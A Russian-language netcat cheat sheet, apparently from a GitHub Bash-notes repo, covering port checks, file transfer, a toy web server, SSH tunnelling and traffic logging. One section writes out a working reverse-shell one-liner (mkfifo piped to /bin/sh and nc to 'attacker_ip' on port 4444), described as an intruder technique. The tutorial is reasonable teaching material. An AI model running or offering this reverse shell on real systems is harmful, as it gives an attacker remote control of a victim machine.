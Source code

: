 Утилита `netcat` — это мощный инструмент командной строки Linux, предназначенный для передачи данных между сетевыми устройствами через TCP/IP соединения. 
Она позволяет отправлять и получать данные по сети, проверять доступность сервисов, эмулировать клиентские запросы и серверные ответы, создавать туннели и многое другое. 

## Простые примеры

### Проверка доступности веб-сайта
Проверяем возможность подключения к порту HTTP сервера:
```bash
nc -vz example.com 80
```
Флаг `-v` включает подробный вывод, а `-z` заставляет Netcat немедленно закрывать соединение после проверки порта.

### Передача файла на удалённый хост
Передача локального файла на удалённую машину:
**Приёмник (сервер):**
```bash
nc -l 1234 > received_file.txt
```
**Отправитель (клиент):**
```bash
nc example.com 1234 < local_file.txt
```

### Эмуляция простого веб-сервера
Можно создать простой веб-сервер, возвращающий статический HTML-документ:
```bash
echo "<html><body><h1>Hello World!</h1></body></html>" | nc -l 8080
```
Теперь открываем браузер и вводим адрес `http://localhost:8080`, увидим простую страницу с текстом.

---

## Сложные примеры

### Создание обратного шелла (обратная оболочка)
Используется злоумышленниками для проникновения в систему. Для демонстрации приведён пример безопасного тестирования.

**Сервер (хост, ожидающий подключение):**
```bash
nc -lvnp 4444
```
**Клиент (машина жертвы, отправляющая команду оболочки):**
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 4444 >/tmp/f
```
Здесь создаётся FIFO-файл (`mkfifo`), который перенаправляет команды обратно атакующему хосту, создавая интерактивную сессию оболочки.

### Фильтрация трафика через SSH-туннелирование
Netcat также полезен для создания защищённых каналов связи через SSH. Например, передайте трафик через зашифрованный канал SSH, минуя внешние ограничения сети:
```bash
ssh user@remote_host -L 8080:example.com:80
```
Затем внутри сессии SSH выполняем:
```bash
nc localhost 8080
```
Это создаёт прокси-соединение от вашего компьютера к целевому сайту через шифрование SSH.

### Автоматическое создание дампа трафика в файл
Иногда полезно сохранять весь проходящий трафик через сеть в файл для последующего анализа:
```bash
nc -lvp 1234 | tee traffic_dump.log
```
Эта команда прослушивает порт и сохраняет всю входящую информацию в файл одновременно показывая её на экране терминала.

---

Netcat отлично подходит для быстрой передачи файлов между двумя машинами. 
Вот два основных способа передать файлы с использованием Netcat:

### Способ №1: Классическая передача через перенаправление ввода-вывода

#### Сервер (принимающая сторона):
1. Запустите Netcat в режиме ожидания подключений на определённом порту и направьте входящий поток данных в нужный файл:
   ```bash
   nc -lvp PORT_NUMBER > FILE_NAME
   ```
   
   Пример:
   ```bash
   nc -lvp 1234 > myfile.txt
   ```

   Здесь:
   - `-l`: режим слушателя (слушает входящие соединения).
   - `-v`: выводит дополнительную информацию (детали подключения).
   - `-p`: указывает номер порта для прослушивания.
   - `<FILE_NAME>`: имя файла, куда будут записаны полученные данные.

#### Клиент (отправляющая сторона):
1. Подключитесь к указанному IP адресу и порту, передав содержимое файла в качестве вывода:
   ```bash
   nc SERVER_IP PORT_NUMBER < FILE_NAME
   ```
   
   Пример:
   ```bash
   nc 192.168.1.100 1234 < file_to_send.txt
   ```

   Таким образом, отправляемый файл передаётся по сети на принимающую сторону, где он сохраняется в указанный файл.

---

### Способ №2: Использование встроенных команд для автоматизации процесса отправки и приёма

Если вам нужен автоматизированный способ отправки и приёмки файла одним простым действием, можно воспользоваться комбинацией Netcat и Bash-сценарием.

#### Отправка файла автоматически:
```bash
#!/bin/bash
IP="REMOTE_SERVER_IP"
PORT=1234
FILE="myfile.txt"

# Отправляем файл
nc "$IP" "$PORT" < "$FILE"
```

#### Приём файла автоматически:
```bash
#!/bin/bash
PORT=1234
OUTPUT_FILE="received_file.txt"

# Ждём подключения и сохраняем полученный файл
nc -lvp "$PORT" > "$OUTPUT_FILE"
```

Таким образом, оба сценария работают вместе: один запускается на стороне клиента для отправки файла, другой — на стороне сервера для его приёма.
Использовать netcat для передачи файлов вместе с SSh-туннелем. См.: [SSH-tunnel](https://github.com/sherbettt/BASH-cheats/blob/main/12.2.%20SSH-туннель%20и%20sshuttle.md)

---


